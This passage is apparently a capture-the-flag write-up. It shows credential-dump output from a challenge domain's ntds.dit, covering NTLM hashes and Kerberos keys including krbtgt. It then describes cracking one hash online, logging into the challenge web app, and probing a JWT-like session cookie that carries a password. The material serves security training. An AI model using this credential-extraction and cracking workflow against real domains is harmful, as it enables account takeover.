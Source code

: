 ```console
huntressctf.local\BERTIE_PRINCE:1116:aad3b435b51404eeaad3b435b51404ee:eb0694cb60d647825ebc6420e0b4f4d4:::
huntressctf.local\KIRK_BARKER:1117:aad3b435b51404eeaad3b435b51404ee:04f60aa2def14e3a0703480d46a74b5c:::
huntressctf.local\PHOEBE_LEWIS:1118:aad3b435b51404eeaad3b435b51404ee:9bc8530fb646ed162646f50dab5ca44a:::
huntressctf.local\LILY_DUNLAP:1119:aad3b435b51404eeaad3b435b51404ee:ab69b9f2f7db11b28dde05ef92961335:::
SECWWEBS1000000$:1124:aad3b435b51404eeaad3b435b51404ee:ced0af30b76eb4ef16f60ffd2a4bef4b:::
--- snip ---
AWSWVIR1000000$:1151:aad3b435b51404eeaad3b435b51404ee:10dc52895aa6f5d6ed491a18b8b64907:::
ITSWWKS1000001$:1152:aad3b435b51404eeaad3b435b51404ee:acd51fe2dab7467ba83e5203afb4079b:::
[*] Kerberos keys from ../chall/ntds.dit 
WIN-UUTKPJ98ERD$:aes256-cts-hmac-sha1-96:b9105a2bde81dbe8aebc4a1027b813336e574059e79759382883ef8861964cab
WIN-UUTKPJ98ERD$:aes128-cts-hmac-sha1-96:a0ae8ff6575aadf6f63369f7519bd4eb
WIN-UUTKPJ98ERD$:des-cbc-md5:ef32e0c8624646fb
krbtgt:aes256-cts-hmac-sha1-96:43751c5381ea51457174219121e8875d8f07be799f2c717a71b385de8cb7e745
krbtgt:aes128-cts-hmac-sha1-96:5a8ae16d7d9d5bcc03e06cce2fcf15fc
krbtgt:des-cbc-md5:5468cbfec4ecd668
huntressctf.local\PAMELA_MCCARTHY:aes256-cts-hmac-sha1-96:7766f657cfa70e7199fc76fba4ae7560bd5a56bb823535bd1938f92449efa234
huntressctf.local\PAMELA_MCCARTHY:aes128-cts-hmac-sha1-96:440ab487de8a769a70f04c15b506e1ab
--- snip ---
ITSWWKS1000001$:des-cbc-md5:dcbc892583866e1c
[*] Cleaning up...
```

The first lines are for Windows hashes. The first hash will be the lanman hash (deprecated, here it is always `aad3b435b51404eeaad3b435b51404ee`) and the second part is the NTLM hash.

I put some on [crackstation.net](https://crackstation.net/), and it found the password `katlyn99` for the hash `08e75cc7ee80ff06f77c3e54cadab42a` which correspond to the `huntressctf.local\JILLIAN_DOTSON` username.

Then we have to use the `Start` button on the website which starts a web application that looks like a Microsoft web service.

The username to give is slightly different as it must be `huntressctf\JILLIAN_DOTSON`.

Once log in you have a button to trigger a MFA authentication but of course you don't receive anything.

The website set a cookie in the browser:

```
session=eyJjb3VudGVyIjoxLCJwYXNzd29yZCI6ImthdGx5bjk5IiwidXNlcm5hbWUiOiJodW50cmVzc2N0ZlxcQWRtaW5pc3RyYXRvciIsImFsZyI6IkhTMjU2In0.ZTvvv73vv70.wMmkkVqNH9YJEl6ooKCmV-B3NOcjq-JJmkpvUuYQO1o
```

The value definitively looks like a JSON Web Token (JWT). There are some tips and tricks on the subject on [HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens).

I tried some, like cracking the key or playing with [jwt_tool](https://github.com/ticarpi/jwt_tool) but the format of the token wasn't accepted.
